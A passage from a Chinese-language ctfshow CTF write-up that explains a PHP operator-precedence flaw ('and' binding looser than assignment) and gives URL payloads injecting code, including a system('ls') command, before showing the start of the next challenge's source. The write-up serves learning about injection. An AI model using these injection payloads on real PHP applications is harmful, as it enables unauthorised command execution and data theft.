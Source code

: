 ```php

?>
```

这题其实就是一道简单的拼接题

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

这里看起来像是要求v1，v2，v3都为数字，实际上只需v1为数字则会将v1赋给v0，而不会再执行后面的语句

所以我们这里只需要使v1为数字即可

payload:

```
?v1=21&v2=var_dump($ctfshow)/*&v3=*/;
```

或者用命令

```cobol
?v1=1&v2=system('ls')/*&v3=*/;
```

![image-20241202145637866](assets/image-20241202145637866.png)

将0x2d更换成-得到flag

#### web101

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-22 00:26:48
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
```